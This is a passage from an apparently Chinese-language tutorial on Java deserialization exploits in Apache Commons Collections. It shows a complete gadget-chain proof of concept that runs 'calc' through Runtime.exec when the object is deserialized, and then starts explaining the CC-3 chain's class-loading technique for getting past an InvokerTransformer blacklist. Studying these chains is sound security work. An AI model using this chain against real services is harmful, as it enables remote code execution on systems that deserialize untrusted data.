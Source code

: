 ```plain
    public static void main(String[] args) throws Exception{
        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        ChainedTransformer cha = new ChainedTransformer(Transformers);
        HashMap<Object,Object> m1 = new HashMap<>();//设置一个空的 map 以便过 map.containsKey
        Map<Object,Object> Lazymap = LazyMap.decorate(m1,new ConstantTransformer(1));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(Lazymap,"lky");//LazyMap.get() 这个方法的调用本来就没有参数，所以我们第二个参数为就随便写即可
        HashMap<Object,Object> m2 = new HashMap<>();
        m2.put(tiedMapEntry,"lituer");//触发 hash()
        //序列化过程结束
        Lazymap.remove("lky");
        //删除 key
        Field factoryFied = LazyMap.class.getDeclaredField("factory");
        factoryFied.setAccessible(true);
        factoryFied.set(Lazymap,cha);
        serialize(m2);
        unserialize("ser.bin");
    }
    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

## CC-3 分析

CC-3 这条链子的思路是用了我们一开始学的 java 的类的动态加载，如果我们的链子总是依赖 ChainedTransformer 的 transform 方法，利用反射将多个 Invoketranfoemer 来进行的执行命令这样的思路，要是 Invoketranfoemer 类进入了黑名单，这样整条链子就不能用了。

为了摆脱这样的限制，CC-3 链子的这种思路就应运而生了。

### 类的动态加载

我们在写第一篇的时候也详细的分析了，这里也就是简单提一些对本链子理解有助的内容。我们把目光放到 ClassLoader 中，Java 在加载类的时候都会进行这些流程

```plain
ClassLoader ->SecureClassLoader->URLClassLoader->AppClassLoader
ClassLoader.loadClass - > ClassLoader.findClass - > ClassLoader.defineClass
```
